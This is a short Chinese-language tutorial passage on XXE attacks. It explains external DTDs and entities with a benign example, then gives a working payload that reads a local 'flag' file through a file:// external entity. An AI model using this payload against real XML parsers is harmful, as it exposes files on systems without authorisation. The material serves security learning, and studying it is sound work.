 如今的xxe漏洞攻击中主要用到的是外部DTD。

External DTD

example.xml:

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>
```

note.dtd

```xml-dtd
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

外部实体，用来引入外部资源。有SYSTEM和PUBLIC两个关键字，表示实体来自本地计算机还是公共计算机

```xml-dtd
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">

<author>&writer;©right;</author>
```



# 常见攻击方式

## 读文件、目录（有回显

### file协议

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///e://flag">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240610205200.png)
